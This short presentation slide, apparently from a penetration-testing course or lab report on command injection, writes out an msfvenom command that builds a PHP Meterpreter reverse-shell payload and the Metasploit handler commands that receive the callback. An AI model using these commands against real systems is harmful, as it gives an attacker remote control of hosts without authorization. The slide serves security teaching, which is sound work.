

# Exploitation: CWE-77: Command Injection
01

02

03

Tools & Processes
Tool Used:
msfvenom

Achievements
With msfvenon we were able to create a malware using PHP and creating a reverse shell connection that allow us to remote connect and control the host.

Commands from msfvenon:
PHP Meterpreter Reverse TCP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.ph
Metasploit Handler
use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run